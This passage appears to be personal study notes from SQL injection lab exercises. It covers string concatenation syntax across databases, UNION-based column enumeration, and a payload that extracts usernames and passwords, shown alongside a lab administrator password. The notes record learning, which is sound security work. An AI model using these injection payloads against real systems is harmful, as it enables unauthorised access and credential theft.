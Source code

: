 			Oracle
				'foo'||'bar'`
			Microsoft
				'foo'+'bar'`
			PostgreSQL
				'foo'||'bar'`
			MySQL
				'foo' 'bar'` [Note the space between the two strings]  
			     CONCAT('foo','bar')`
			     
			     
			     
LAB#4 UNION ATTACK 
--
	 SQLI UNION ATTACK -- FINDING A COLUMN CONTAINING TEXT
		 STEP(#1)
		 SELECT a, b, c FROM TABLE1 UNION SELECT 'a', NULL, NULL
			 --error ->- column is not type string
			 200-> column is of type string

ANALYSIS
	' UNION SELECT 'a', NULL, NULL --
	' UNION SELECT '7Y7u2a, NULL, NULL --	



LAB#5 RETREIVING INTERESTING infos
--
SQLI- RETREIVING INTERESTING DATAS
RETREIVING DATA FROM OTHER TABLES

GOAL ; RETREIVE ALL USERNAMES AND PASSWORDS AND USE THE INFO TO LOGIN AS ADMINISTRATOR

ANALYSIS

DETERMINE # OF COLUMNS IN THE TABLE
	'ORDER BY 1--
	'ORDER BY 2--
	
DETERMINE TYPE OF DATA IN THE COLUMN
	'UNION SELECT 'A',NULL
	'UNION SELECT NULL,'A',
	--> BOTH COLUNMS ARE STRINGS

OBTAINING PASSWORD AND USERNAME 
 ' UNION SELECT USERNAME, PASSWORD FROM USERS--       
 ADMINISTRATOR
 6mffe94usq37m1q29z5d

LAB#6 CONCATENATING MULTIPLE COLUMNS  
--
SQLI -- CONCATENATING INFORMATIONS INTO ONE COLUMN

GOAL-- PRINT OUT THE USERNAME AND PASSWORD IN ONE COLUNM
ANALYSIS 

DETERMINE # OF COLUMNS IN THE TABLE 
' ORDER BY 1--
' ORDER BY 2--
